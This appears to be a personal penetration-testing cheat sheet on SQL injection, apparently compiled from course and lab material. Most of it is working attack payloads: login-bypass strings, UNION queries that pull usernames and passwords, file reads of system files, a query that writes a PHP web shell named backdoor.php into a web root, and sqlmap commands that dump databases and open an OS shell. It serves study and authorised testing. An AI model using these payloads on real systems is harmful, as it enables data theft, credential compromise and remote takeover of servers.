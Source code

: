 ## MySQL
SQLi with POST parameter:
```bash
sudo sqlmap -u "https://streamio.htb/login.php" --data "username=&password=" -p username --os-command
```
Examples:
[[StreamIO#^6ca422]]

### SQLi Authentication Bypass
A SQL query for a normal login, then, looks like this:
```mysql
select * from users where name = 'tom' and password = 'jones';
```

If we control the value being passed in as _$user_, we can subvert the logic of the query by submitting tom' or 1=1;# as our username, which creates a query like this:
```mysql
select * from users where name = 'tom' or 1=1;#' and password = 'jones';
```
SQLi payload:
```bash
tom' or 1=1;#
```
The pound character (#) is a comment marker in MySQL/MariaDB. It effectively removes the rest of the statement, so we're left with:
```mysql
select * from users where name = 'tom' or 1=1;
```
If we do encounter errors when our payload is returning multiple rows, we can instruct the query to return a fixed number of records with the LIMIT statement:
```mysql
select * from users where name = 'tom' or 1=1 LIMIT 1;#
```

### SQLite3
### UNION Select:
SQLite3 entrypoint:
```http
http://192.168.186.52/debug.php?id=%27%27%20union%20select%20id,username,username,password,flag%20from%20users;--%20-
```
We need to know column and table names if we are going to extract data from them. This helps us execute a more surgical data extraction

We can add an _order by_ clause to the query for simple enumeration. This clause tells the database to sort the results of the query by the values in one or more columns. We can use column names or the column index in the query.

Let's submit the following URL:
```bash
http://10.11.0.22/debug.php?id=1 order by 1
```

This query instructs the database to sort the results based on the values in the first column. If there is at least one column in the query, the query is valid and the page will render without errors. We can submit multiple queries, incrementing the _order by_ clause each time until the query generates an error, indicating that the maximum number of columns returned by the query in question has been exceeded. Remember, a query can select all the columns in a table or just a subset of columns. We need to rely on this trial-and-error approach if we do not have access to the source query.

SQLi Payload:
```mysql
'' union select id,time,username,password,flag from users;-- -
```
SQLi Payload:
After id=:
```bash
http://10.11.0.22/debug.php?id=1 union select 1,2,3,4,5 from users;-- -
```
SQLi Payload:
```bash
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```
Useful Resources:
[PayloadAllTheThings SQLite Injection](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/SQL%20Injection/SQLite%20Injection.md)
[SQLite database structure](https://www.sqlite.org/schematab.html)

### MariaDB
The following examples use commands specific to MariaDB. However, most other databases offer similar functionality with slightly different syntax. Regardless of what database software we target, it's best to understand the platform-specific commands.

For example, to output the version of MariaDB, we can use this URL:

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, @@version
```

This should output a "2" in the name field and the database version number in the comment field:

![[Pasted image 20220905185827.png]]

Good. It looks like that's working. Next, let's output the current database user with this query:

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, user()
```

This query reveals that the root user is being used for database queries:

![[Pasted image 20220905185937.png]]

We can enumerate database tables and column structures through the _information_schema_. The information schema stores information about the database, like table and column names. We can use it to get the layout of the database so that we can craft better payloads to extract sensitive data. The query for this would look similar to the following:

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, table_name from information_schema.tables
```

This should output a lot of data, most of which references information about the default objects in MariaDB. It will also include the table names but we will need to scroll through the output to find them.

![[Pasted image 20220905185910.png]]

The _users_ table looks particularly interesting. Let’s target that table and retrieve the column names with the following query:

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, column_name from information_schema.columns where table_name='users'
```

This outputs all the column names for the _users_ table:
![[Pasted image 20220905190646.png]]

Armed with this information, we can extract the usernames and passwords from the table. We know that the original query selects three columns and the web page displays columns two and three. If we update our union payload, we can display the usernames in column two and the passwords in column three.

```
http://10.11.0.22/debug.php?id=1 union all select 1, username, password from users
```

This will output the database usernames in the name field and passwords in comments field:

![Figure 91: Extracting the Contents of the Users Table](https://offsec-platform-prod.s3.amazonaws.com/offsec-courses/PEN-200/imgs/web/875a4b656b96067c08e5e29dadbe473b-webapp_sqli_12.png)

### SQL Injection to Code Execution
Read a file:
```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, load_file('C:/Windows/System32/drivers/etc/hosts')
```

Using the _INTO OUTFILE_ function to create a malicious PHP file in the server’s web root. Based on error messages we've already seen, we should know the location of the web root.

```
http://10.11.0.22/debug.php?id=1 union all select 1, 2, "<?php echo shell_exec($_GET['cmd']);?>" into OUTFILE ' C:/xampp/htdocs/site2/public/backdoor.php'
```
If this succeeds, the file should be placed in the web root:

![[Pasted image 20220905191039.png]]

This command produces an error message but this doesn't necessarily mean the file creation was unsuccessful. 

## SQLMAP
Test if a paramater is vulnerable:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id"
```
list databases:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" --dbs
```
List tables from a specific database:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> --tables
```
List columns from a specific table:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> -T <table> --columns
```
Dump the database:
List tables from a specific database:
```bash
sqlmap -u http://192.168.186.52/debug.php?id=1 -p "id" -D <database> -T <table> --dump
```
Execute commands:
```
sqlmap -u http://10.11.0.22/debug.php?id=1 -p "id" --dbms=mysql --os-shell
```


